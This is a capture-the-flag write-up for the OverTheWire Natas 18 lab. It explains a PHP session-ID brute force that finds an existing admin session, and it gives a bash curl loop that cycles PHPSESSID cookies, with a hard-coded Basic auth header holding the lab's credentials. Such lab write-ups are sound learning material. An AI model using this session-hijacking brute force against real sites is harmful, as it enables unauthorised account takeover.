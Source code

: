So how do we get `$_SESSION["admin"] == 1`?

#### ATTACK VECTOR

From the code, we see there isn't any path for us to manipulate the
`$_SESSION["admin"]` and the only thing that seems promising is that we can
control the `PHPSESSID` the code.

We see the following path:

1. we need `my_session_start()` to return true so that we avoid the path
that sets `$_SESSION["admin"]` to `isValidAdminLogin()` which wil be 0.
2. to get `my_session_start()` to return true, we need to supply a `PHPSESSID`
in our cookie of a session which is already exists and we can resume with the
call to `session_start()`.
3. if we resume a `PHPSESSID` session which already has `$_SESSION["admin"]`
set, it won't got down the "Session was old" path and set the flag to false.
4. through this path we can get to `print_credentials()` with "admin" set to
true and get the password
5. since the range of `PHPSESSID` is only between 0-640 in this program, it
seems reasonable to brute force iterate through the space and see if we do
indeed find a session which already has "admin=1" set for us

#### BRUTE FORCE

Wrote a script to inject each value of SESSIONID from 1 - 640 until we found
one that allows us to go down the "admin=true" path..

```
$ cat script.sh
#! /bin/bash

for SESSIONID in {0..640}
do
  echo "${SESSIONID}"
  #--data 'username=admin&password=foo'
  curl --silent \
    'http://natas18.natas.labs.overthewire.org/index.php?debug' \
    -H 'Authorization: Basic bmF0YXMxODp4dktJcURqeTRPUHY3d0NSZ0RsbWowcEZzQ3NEamhkUA==' \
    -H "Cookie: PHPSESSID=${SESSIONID}" \
    | grep "Password"

  if [ $? -eq 0 ]; then
    # if the string "Password:" to indicate we've received the credentials
    # for natas19 from "print_credentials()"
    break;
  fi
done
```

```
$ ./script.sh
0
1
2
3
4
5

<...>

115
116
117
118
119
```